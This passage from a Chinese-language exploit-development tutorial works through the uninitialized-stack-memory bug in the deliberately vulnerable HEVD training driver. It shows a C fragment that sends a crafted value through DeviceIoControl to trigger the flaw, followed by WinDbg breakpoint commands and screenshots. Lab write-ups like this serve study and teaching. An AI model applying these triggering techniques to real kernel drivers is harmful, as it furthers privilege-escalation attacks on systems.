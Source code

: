 ```
 
        DWORD bReturn = 0;
        char buf[4] = { 0 };
        *(PDWORD32)(buf) = 0xBAD0B0B0;
 
        DeviceIoControl(hDevice, 0x22202f, buf, 4, NULL, 0, &bReturn, NULL);
    }
 
 
 
} 
```

因为 uservalue=0xBAD0B0B0，所以打印出信息，

 

![](https://bbs.pediy.com/upload/attach/202111/921642_58X3WMZYE8KAXSB.jpg)

 

*(PDWORD32)(buf) = 0x12345678;

 

将值修改为 0x12345678, 再次运行

 

我们传入值与 MagicValue 值不匹配时，则会触发漏洞

 

![](https://bbs.pediy.com/upload/attach/202111/921642_6VDJ8EHGPKAQ399.jpg)

 

在 cmp 处下断点，

 

![](https://bbs.pediy.com/upload/attach/202111/921642_ZRQ7V275G4AUS9H.jpg)

 

HEVD!TriggerUninitializedMemoryStack 偏移 0x53 处，下断点，运行

```
kd> bp HEVD!TriggerUninitializedMemoryStack+0x53
kd> g

```

执行我们的测试 exp 断下来后查看

 

![](https://bbs.pediy.com/upload/attach/202111/921642_2R6F6WSHCFRV886.jpg)

 

![](https://bbs.pediy.com/upload/attach/202111/921642_FH2FZ9YXWH665CX.jpg)
